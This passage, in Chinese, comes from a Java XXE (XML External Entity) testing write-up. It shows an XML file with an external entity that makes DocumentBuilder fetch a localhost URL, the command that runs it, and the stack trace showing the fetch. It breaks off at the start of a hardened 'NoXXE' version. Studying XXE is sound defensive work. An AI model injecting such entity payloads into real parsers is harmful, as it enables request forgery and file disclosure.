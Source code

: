 --------------------------------------------------------------------------

l1nk3r的原始示例将包含DTD的XML内嵌在代码中，用ByteArrayInputStream()将
String转成InputStream。我改成由命令行参数指定外部文件，用FileInputStream获
取InputStream，这样可以测试其他XML。

这种测试代码不需要指定package，就丢在当前目录下即可。

$ cat xxe_0.txt
<!DOCTYPE any [
<!ELEMENT any ANY>
<!ENTITY some SYSTEM "http://127.0.0.1:8080/nonexist">
]>
<any>&some;</any>

在DTD中使用http，可以方便地观察到XXE是否成功触发。与l1nk3r不同，我用了不存
在的资源，好处是很多测试用例因404而直接抛出异常、显示调用栈回溯，减少动态
调试环节。

$ java DocumentBuilderXXE xxe_0.txt
Exception in thread "main" java.io.FileNotFoundException: http://127.0.0.1:8080/nonexist
        at sun.net.www.protocol.http.HttpURLConnection.getInputStream0(HttpURLConnection.java:1896)
        at sun.net.www.protocol.http.HttpURLConnection.getInputStream(HttpURLConnection.java:1498)
        at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(XMLEntityManager.java:647)
        at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.startEntity(XMLEntityManager.java:1304)
        at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.startEntity(XMLEntityManager.java:1240)
        at com.sun.org.apache.xerces.internal.impl.XMLDocumentFragmentScannerImpl.scanEntityReference(XMLDocumentFragmentScannerImpl.java:1908)
        at com.sun.org.apache.xerces.internal.impl.XMLDocumentFragmentScannerImpl$FragmentContentDriver.next(XMLDocumentFragmentScannerImpl.java:3061)
        at com.sun.org.apache.xerces.internal.impl.XMLDocumentScannerImpl.next(XMLDocumentScannerImpl.java:602)
        at com.sun.org.apache.xerces.internal.impl.XMLDocumentFragmentScannerImpl.scanDocument(XMLDocumentFragmentScannerImpl.java:505)
        at com.sun.org.apache.xerces.internal.parsers.XML11Configuration.parse(XML11Configuration.java:842)
        at com.sun.org.apache.xerces.internal.parsers.XML11Configuration.parse(XML11Configuration.java:771)
        at com.sun.org.apache.xerces.internal.parsers.XMLParser.parse(XMLParser.java:141)
        at com.sun.org.apache.xerces.internal.parsers.DOMParser.parse(DOMParser.java:243)
        at com.sun.org.apache.xerces.internal.jaxp.DocumentBuilderImpl.parse(DocumentBuilderImpl.java:339)
        at javax.xml.parsers.DocumentBuilder.parse(DocumentBuilder.java:121)
        at DocumentBuilderXXE.main(DocumentBuilderXXE.java:19)

HTTP Server收到GET请求，返回404，导致客户端抛出异常。

l1nk3r原文有很长篇幅跟踪分析XML解析流程，至少对我而言，没多大必要，只要看
到上述调用栈回溯就够了，需要了解细节时去看相应栈帧指示的类即可。

2) DocumentBuilderNoXXE.java

--------------------------------------------------------------------------
/*
 * javac -encoding GBK -g DocumentBuilderNoXXE.java
 */
import java.io.*;
import javax.xml.parsers.*;
import org.w3c.dom.Document;
